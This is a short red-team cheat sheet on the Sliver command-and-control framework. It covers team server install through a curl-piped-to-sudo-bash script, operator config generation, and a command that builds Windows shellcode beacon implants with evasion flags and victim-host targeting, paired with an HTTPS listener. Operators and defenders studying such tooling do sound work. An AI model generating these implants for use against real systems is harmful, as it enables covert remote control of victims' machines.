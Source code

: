 # Sliver

- [https://github.com/BishopFox/sliver](https://github.com/BishopFox/sliver)
- [https://bishopfox.com/blog/passing-the-osep-exam-using-sliver](https://bishopfox.com/blog/passing-the-osep-exam-using-sliver)




## Install

- [https://github.com/BishopFox/sliver/releases/latest](https://github.com/BishopFox/sliver/releases/latest)

Install team server as a daemon on the team server:

```
$ curl https://sliver.sh/install | sudo bash
```

For a client get a `sliver-client` binary from releases or disable the service if installed as a daemon:

```
$ sudo systemctl disable sliver.service --now
```




## Configure Team Server for Multiplayer

- [https://github.com/BishopFox/sliver/wiki/Configuration-Files](https://github.com/BishopFox/sliver/wiki/Configuration-Files)

Change [multiplayer](https://github.com/BishopFox/sliver/wiki/Multiplayer-Mode) listener host (daemon mode) and restart:

```
$ sudo vi /root/.sliver/configs/server.json
$ sudo systemctl restart sliver.service
```

Generate config for a new operator:

```
$ sudo /root/sliver-server operator --name snovvcrash-kali-home --lhost <PRIVATE_IP> --lport 31337 --save snovvcrash_<PRIVATE_IP>.cfg
```




## Cheatsheet

A redirector-aware pair of payload and listener (when redirecting to `PRIVATE_IP:8443`):

```
sliver > generate [beacon] [--seconds 45] [--jitter 5] --os windows --arch amd64 --format shellcode [--evasion] [--disable-sgn] --http example.com:443 [--limit-datetime "Thu, 01 Jan 1970 00:00:00 MSK"] [--limit-domainjoined] [--limit-hostname VICTIM-PC] [--limit-username victim.user] --name victimpc --save /home/snovvcrash/www/shellcode.bin
sliver > https --domain example.com --lhost <PRIVATE_IP> --lport 8443
```
